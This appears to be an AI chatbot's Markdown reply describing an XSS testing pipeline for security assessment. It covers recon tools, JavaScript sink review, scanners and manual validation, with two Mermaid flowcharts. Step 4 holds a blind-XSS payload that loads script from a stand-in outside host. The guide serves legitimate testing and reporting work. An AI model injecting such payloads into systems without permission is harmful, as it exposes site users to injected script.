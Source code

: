 

---

# 🛡️ XSS Detection and Validation Pipeline (Automation + Manual)

This pipeline helps identify and verify:

- ✅ Reflected XSS
- ✅ Stored XSS
- ✅ DOM-based XSS
- ✅ Blind XSS

---

## ✅ Step-by-Step Process

### 1. Recon and Input Discovery

- Use tools like `gau`, `waybackurls`, `hakrawler`, `httpx`, `subfinder`
- Use `ParamSpider` and `Arjun` to discover input parameters

### 2. JavaScript Static Analysis

- Search `.js` files for dangerous sinks like `innerHTML`, `eval`, `document.write`
- Tools: `LinkFinder`, `Retire.js`, `grep`

### 3. Automated Scanning

- Use:
    - Burp Suite Pro (with DOM Invader)
    - Nuclei with XSS templates
    - XSStrike for smart payload fuzzing

### 4. Blind XSS Injection

- Inject `<script src=//your.bxss.net></script>` in headers/forms
- Monitor via `Interact.sh`, `Burp Collaborator`

### 5. Collect All Hits

- Gather results from all tools: Burp, DOM Invader, static scan, blind callbacks

### 6. Manual Validation

- Use Burp Repeater or browser to render
- Check alert box, HTML rendering, or JS console behavior
- Use `DOMPurify` to confirm sanitization

### 7. Report

- Classify issue: DOM, Reflected, Stored, Blind
- Write clear PoC URL + reproduction steps

---

## 📊 Mermaid Flowchart 

```mermaid
flowchart TD
    A[Start Recon and URL Discovery] --> B[Collect JavaScript Files and Parameters]
    B --> C[Static JS Review: innerHTML, eval, document.write]
    C --> D[Analyze Using LinkFinder or Grep]
    B --> E[Run Automated Scanners]

    E --> F1[Burp Suite Pro Scanner and DOM Invader]
    E --> F2[Nuclei with XSS Templates]
    E --> F3[XSStrike for Contextual Fuzzing]

    B --> G1[Inject Blind XSS Payloads in Forms and Headers]
    G1 --> G2[Monitor OOB Hits via Interact.sh or Collaborator]

    F1 --> H[Collect XSS Hits]
    F2 --> H
    F3 --> H
    D --> H
    G2 --> H

    H --> I[Manual Verification Phase]
    I --> J1[Render in Burp Repeater or Browser]
    I --> J2[Inspect Output Using DevTools]
    I --> J3[Test With DOMPurify]
    I --> J4[Check Execution: alert or console.log]

    J1 --> K[Classify XSS: DOM, Reflected, Stored, Blind]
    J2 --> K
    J3 --> K
    J4 --> K

    K --> L[Write Report With PoC and Reproduction Steps]
```

---

## ✅ Bonus: Mobile-Friendly Flowchart (Simplified)

```mermaid
flowchart TD
    A[Recon] --> B[Collect JS and Params]
    B --> C[JS Static Analysis]
    C --> D[Run Scanners]

    D --> E1[Burp Scanner]
    D --> E2[Nuclei XSS]
    D --> E3[XSStrike]

    B --> F1[Blind XSS Payloads]
    F1 --> F2[Monitor OOB Hits]

    E1 --> G[Collect Results]
    E2 --> G
    E3 --> G
    D --> G
    F2 --> G

    G --> H[Manual Testing]
    H --> I1[Burp Repeater]
    H --> I2[DevTools Check]
    H --> I3[DOMPurify Test]
    H --> I4[Alert Execution Check]

    I1 --> J[Classify: DOM, Reflected, Stored, Blind]
    I2 --> J
    I3 --> J
    I4 --> J

    J --> K[Write PoC and Report]
```

---

## ✅ You Now Have:

- 🔄 Full end-to-end XSS testing pipeline
- 📊 Two fully working Mermaid diagrams (desktop + mobile)
- 🛠 Tools and manual steps
- 🧪 Confirmed compatibility — no rendering errors

Would you like this exported to `.md`, `.pdf`, or embedded in a template like Notion, GitHub README, or Obsidian vault?